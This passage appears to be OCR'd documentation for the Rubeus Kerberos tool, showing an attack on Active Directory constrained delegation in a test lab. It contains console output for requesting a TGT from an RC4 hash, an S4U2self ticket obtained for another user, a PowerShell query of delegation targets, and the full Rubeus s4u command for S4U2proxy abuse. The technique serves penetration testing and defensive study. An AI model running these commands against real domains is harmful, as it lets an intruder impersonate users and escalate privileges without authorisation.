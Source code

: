     [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIE+jCCBPagAwIBBaEDAgEWoo...(snip)...


    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Got a TGS for 'dfm.a@TESTLAB.LOCAL' to 'TESTLAB.LOCAL\patsy'
    [*] base64(ticket.kirbi):

        doIF2jCCBdagAwIBBaEDAgEWoo...(snip)...

That forwardable ticket can then be used as a `/tgs:Y` parameter (base64 blob or .kirbi file) to execute the S4U2proxy process. A valid **msds-allowedtodelegateto** value for the account must be supplied (`/msdsspn:X`). Say the **patsy@testlab.local** account looks like this:

    PS C:\> Get-DomainUser patsy -Properties samaccountname,msds-allowedtodelegateto | Select -Expand msds-allowedtodelegateto
    ldap/PRIMARY.testlab.local/testlab.local
    ldap/PRIMARY
    ldap/PRIMARY.testlab.local/TESTLAB
    ldap/PRIMARY/TESTLAB
    ldap/PRIMARY.testlab.local/DomainDnsZones.testlab.local
    ldap/PRIMARY.testlab.local/ForestDnsZones.testlab.local
    ldap/PRIMARY.testlab.local

Then the S4U2proxy abuse function (using the ticket from the previous S4U2self process) would be:

    C:\Rubeus>Rubeus.exe s4u /ticket:doIE+jCCBPagAwIBBaEDAgEWoo..(snip).. /msdsspn:"ldap/PRIMARY.testlab.local" /tgs:doIF2jCCBdagAwIBBaEDAgEWoo..(snip)..
     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3
